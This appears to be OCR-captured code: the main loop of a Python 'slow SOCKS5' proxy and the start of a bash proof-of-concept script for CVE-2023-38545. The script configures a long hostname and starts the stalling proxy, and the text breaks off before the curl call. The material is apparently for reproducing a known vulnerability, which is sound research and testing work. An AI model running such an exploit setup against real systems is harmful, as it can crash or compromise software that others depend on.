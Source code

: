 
def main():
    delay = 0.3
    if len(sys.argv) > 1:
        try:
            delay = float(sys.argv[1])
        except Exception:
            pass
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(50)
    print(f"[slow_socks5_v2] listening on {HOST}:{PORT} with per-byte delay {delay}s; no CONNECT reads", flush=True)
    try:
        while True:
            conn, addr = s.accept()
            t = threading.Thread(target=handle_client, args=(conn, addr, delay), daemon=True)
            t.start()
    except KeyboardInterrupt:
        pass
    finally:
        s.close()

if __name__ == '__main__':
    main()



poc.cve_2023_38545.sh
[03:55:51]
#!/usr/bin/env bash
set -euo pipefail

PROXY_DELAY="${PROXY_DELAY:-0.3}"
CURL_BIN="${CURL_BIN:-/usr/local/bin/curl}"
RUNS="${RUNS:-3}"
HOSTLEN="${HOSTLEN:-2048}"
LOGDIR="${LOGDIR:-/tmp}"
POC_LOG="$LOGDIR/cve_2023_38545_poc_$(date +%s).log"
PROXY="127.0.0.1:1080"

cleanup() {
  if [[ -n "${PROXY_PID:-}" ]] && kill -0 "$PROXY_PID" 2>/dev/null; then
    kill "$PROXY_PID" 2>/dev/null || true
    sleep 0.2
  fi
}
trap cleanup EXIT INT TERM

# Start slow SOCKS5 proxy that does not read CONNECT body (backpressure)
python3 /tmp/slow_socks5_v2.py "$PROXY_DELAY" >/tmp/slow_socks5_v2_runtime.log 2>&1 &
PROXY_PID=$!
sleep 0.5
